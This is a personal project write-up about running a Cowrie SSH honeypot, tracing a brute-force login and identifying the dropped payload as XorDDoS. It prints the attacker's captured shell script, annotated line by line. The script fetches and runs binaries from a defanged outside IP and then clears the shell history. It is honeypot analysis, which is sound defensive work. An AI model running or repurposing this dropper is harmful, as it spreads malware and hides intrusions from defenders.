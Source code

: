 ```yaml
---
layout: default
---
```

### [Home](../../index.md) | [Projects](../index.md)

# Cowrie & The Infrastructure Used

Cowrie is a honeypot designed to log brute-force attacks and attacker shell interactions. It supports ingesting logs into various log aggregation services. Since I have extensive experience with SQL, I chose to store its logs in a MySQL database.

### Infrastructure:

- Azure Virtual Machine
 - Linux (Ubuntu Server 24.04)
  - Services:
   - Cowrie (Honeypot)
   - MySQL (Log Storage)
   
## Running Cowrie
 
 I ran Cowrie for just half a day, and even in that short time, I observed some very interesting and suspicious behavior. Almost immediately, I started seeing clear signs of brute-force attacks.
 
![Brute Force Start](project_images/sql_bf.png)
 
From this image, we can see an attack originating from **218.92.0.186**. Other random IPs also appear from time to time, which we will discuss later.

To see the full extent of this brute-force attack, you can download the .csv file [here](project_files/auth_ip.csv).

We can see that the brute-force attack started at _12:40:02_ from IP **218.92.0.186**. The attacker successfully gained access to the system at _15:08:35_, meaning it took them a little over two hours to guess the correct password—**root**.

![Brute Force Success](project_images/bf_success.png)

It appears that the attacker used **218.92.0.186** to carry out the brute-force attack and, once successful, handed access over to **218.92.0.131**, likely to handle malware delivery.

#### Here is a report from _VirusTotal_ on both IPs:

*	[218.92.0.186](https://www.virustotal.com/gui/ip-address/218.92.0.186)
*	[218.92.0.131](https://www.virustotal.com/gui/ip-address/218.92.0.131)

Now that the attacker is inside our Honeypot we can track every command they run.

![Malware Delivery](project_images/inputs.png)

From this image we can clearly see the attacker ran a script and downloaded something from another IP using _wget_ and _curl_, lets break this command down. 

```
#!/bin/sh
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; # Ensures standard system paths are included in the script’s environment. 
wget hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the file "112" using wget.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the same file using curl, ensuring it keeps the original filename.
chmod +x 112;  # Makes "112" executable.
./112;  # Executes "112".
wget hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads another file named "112s" from the same server.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads "112s" while preserving its name.
chmod +x 112s;  # Makes "112s" executable.
./112s;  # Executes "112s".
rm -rf 112.sh;  # Deletes "112.sh".
rm -rf 112;  # Deletes "112" after execution.
rm -rf 112s;  # Deletes "112s" after execution.
history -c  # Clears the shell history to erase evidence of the commands.

```

**Note:** I have defanged the IP of the malware-hosting server for safety.
It appears that the attacker runs both wget and curl, likely to ensure the download succeeds in case one of the utilities is unavailable on the system.

![Malware-Hosting Server](project_images/malware_host.png)

We can see the full report on the Malware-Hosting Server [here](https://www.virustotal.com/gui/ip-address/43.249.172.195).

## The Malware

We can see that the attacker downloaded something—but what?
Luckily for us, Cowrie has excellent logging and provides a SHA-256 hash of the downloaded file.

![SQL Hash](project_images/sql_shasum.png)

**SHA-256 Hash:** ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73

Now that we have the hash, we can submit it to VirusTotal to analyze it and determine what kind of malware we’re dealing with.

![Virus Total Hash](project_images/virustotal_hash.png)

See the full report from _VirusTotal_ [here](https://www.virustotal.com/gui/file/ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73)

## XorDDoS: The Malware Behind the Attack

From this report, we can see that this file is identified as a Trojan linked to XorDDos, a well known Linux malware strain used to launch DDoS attacks.

#### What is XorDDoS:

*	XorDDoS is a Linux-based malware that has been active since at least 2014.
*	It gets its name from its use of XOR-based encryption to obfuscate communication between infected machines and the command-and-control (C2) servers.
*	XorDDoS primarily targets Linux servers and IoT devices, turning them into botnets to launch massive DDoS attacks against websites and infrastructure.
*	Once inside, it downloads additional payloads, executes them, and then cleans up traces by deleting logs—exactly what we saw in our attack!

#### XorDDos Capabilities:

*	**Launching DDoS Attacks** – Uses infected machines to generate high-volume traffic aimed at bringing down targets.
*	**Persistence & Evasion** – It modifies system settings to survive reboots and evade detection.
*	**Backdoor Functionality** – Allows remote attackers to execute arbitrary commands on the compromised system.
*	**Obfuscation** – Uses XOR-based encryption to disguise network traffic.

#### What This Means for Our Honeypot:

*	The attacker brute-forced their way into our honeypot.
*	They quickly downloaded a XorDDoS variant and executed it.
* 	Their goal was likely to recruit our system into a botnet to launch DDoS attacks against other targets.
*	They also attempted to cover their tracks by deleting logs and clearing history.

#### Key Takeaways

*	Cowrie provided valuable insights into how attackers deliver and execute malware.
*	XorDDoS remains an active Linux threat, and honeypots like this help expose its tactics.

## Conclusion

This experiment with Cowrie provided a firsthand look at real-world SSH brute-force attacks and malware delivery techniques. By capturing and analyzing attacker activity, we uncovered how XorDDoS spreads and operates. This highlights the importance of strong authentication, monitoring logs, and proactive security measures to defend against such threats.

### Docs & Other Files
*	[Cowrie Docs](https://docs.cowrie.org/en/latest/)
*	[Cowrie GitHub](https://github.com/cowrie/cowrie)






### Contact
Sean McGovern

La Grange, North Carolina 

[Linkedin](https://www.linkedin.com/in/sean-mcgovern-310457272/) 











